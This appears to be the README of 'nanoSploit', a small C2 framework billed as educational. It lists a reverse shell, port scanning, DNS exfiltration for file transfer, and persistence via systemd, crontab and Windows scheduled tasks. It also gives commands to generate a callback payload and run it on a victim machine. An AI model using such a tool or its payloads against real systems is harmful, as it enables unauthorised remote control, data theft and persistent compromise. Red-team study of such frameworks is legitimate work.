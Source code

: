 # nanoSploit

Minimalist C2 server for educational purpose.

## Features

### Principals

- Encrypted reverse shell
  - With `cd` support
- Port scanner
  - Single host and network scan
  - Banner grabbing
- DNS ex-filtration
  - Used for download/upload
- Persistence
  - Linux :
    - Systemd service -> every 3 seconds
    - Crontab -> every minute
  - Windows -> Scheduled task -> every minute

### Bonus

- Multi-session
  - Metasploit-like
- Upload/download files
  - Using DNS ex-filtration
- Cross-platform
- No external modules in payload (no need to `pip install` something)

## Install

With pip:
```shell
pip install git+https://github.com/nanosploit/nanosploit.git
```

## Usage

### Server

Run the program terminal :
```shell
python -m nanosploit
```

### Client

Export a payload to execute on victim :
```shell
python -m nanosploit generate --path payload --host 127.0.0.1 --port 5353
./payload # Execute on remote machine
```

Run the program for debugging :
```shell
python -m nanosploit client
```
